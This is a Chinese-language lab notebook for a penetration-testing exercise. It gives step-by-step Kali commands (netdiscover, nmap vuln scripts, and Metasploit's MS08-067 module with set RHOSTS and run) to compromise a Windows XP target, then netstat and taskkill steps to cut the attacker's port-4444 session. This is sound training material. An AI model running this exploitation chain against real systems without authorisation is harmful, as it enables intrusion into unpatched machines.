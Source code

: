 # 系統平台
```
系統平台
  1.software
     a.Application
     b.System OS
  2.Hardware
     a.Security
  ------
  
  cloud IOT Mobile BIOS
```
## 實習目標:安全防護、滲透測試(penetration test)
```
[攻]--->[防]

I.攻擊步驟:
 1.掃描確認網段中有哪些電腦開啟
 2.確定攻擊目標作業系統
 3.確認是否有xxx漏洞
 4.exploitation 開始攻擊
 
[防] -->漏洞掃描
    \__>滲透測試
    
II.防禦步驟
 1.確認異常連線 PORT? UDP
 2.找到PID process
 3.殺掉攻擊者連線
```
## 實戰過程
```

I.攻擊
 1.(KALI):ifconfig --> 找到eth0 獲得本機ip
```
![image](https://github.com/kampfcl3/ipas/blob/main/kali_pic/atk_1/atk1.PNG)
```
 2.(KALI):netdiscover -r (kali ip)/24 確認目標ip
```
![image](https://github.com/kampfcl3/ipas/blob/main/kali_pic/atk_1/atk2.PNG)
```
 3.(KALI):尋找目標可能的作業系統和開啟的服務(port) nmap -O (xp id) 收集情資 
    google hacking 找尋相應漏洞
```
![image](https://github.com/kampfcl3/ipas/blob/main/kali_pic/atk_1/atk3.PNG)
```
 4.(KALI):nmap --script vuln || nmap --script smb-vuln-ms08-067.nse -p445
```
![image](https://github.com/kampfcl3/ipas/blob/main/kali_pic/atk_1/atk4.png)
```
 5.(KALI):開啟攻擊模式
```
![image](https://github.com/kampfcl3/ipas/blob/main/kali_pic/atk_1/atk5.PNG)
```
 6.(KALI):msfconsole
```
![image](https://github.com/kampfcl3/ipas/blob/main/kali_pic/atk_1/atk6.PNG)
```
 7.(KALI):search ms08-067(漏洞)
   #找CVE漏洞
```
![image](https://github.com/kampfcl3/ipas/blob/main/kali_pic/atk_1/atk7.PNG)
```
 8.(KALI):use 複製攻擊碼
```
![image](https://github.com/kampfcl3/ipas/blob/main/kali_pic/atk_1/atk8.PNG)
```
 9.(KALI):show options 
```
![image](https://github.com/kampfcl3/ipas/blob/main/kali_pic/atk_1/atk9.PNG)
```
 10.(KALI):set RHOSTS ip 確認攻擊路徑
```
![image](https://github.com/kampfcl3/ipas/blob/main/kali_pic/atk_1/atk10.PNG)
```
 11.(KALI):run  攻擊開始
```
![image](https://github.com/kampfcl3/ipas/blob/main/kali_pic/atk_1/atk11.PNG)
```
 12.(KALI):入侵成功 ls dir pwd openvas
```
![image](https://github.com/kampfcl3/ipas/blob/main/kali_pic/atk_1/atk12.PNG)
```
II.防禦
 1.(XP):netstat -ano
```
![image](https://github.com/kampfcl3/ipas/blob/main/kali_pic/def1/def1.PNG)
```
 2.(XP):taskkill /F pid(攻擊者 4444 port)
```
![image](https://github.com/kampfcl3/ipas/blob/main/kali_pic/def1/def2.PNG)
```
 3.(XP):成功殺掉攻擊方連線
```
![image](https://github.com/kampfcl3/ipas/blob/main/kali_pic/def1/def3.PNG)
```
 
```
## 參考
```
漏洞尋找:
  1.Google
  2.nmap.org (https://nmap.org/)
    ms 08-067(https://nmap.org/nsedoc/scripts/smb-vuln-ms08-067.html)
  3.CVE(https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-0601)
```
## 補充
```
MAC位址 :每一張網卡上獨一無二的地址

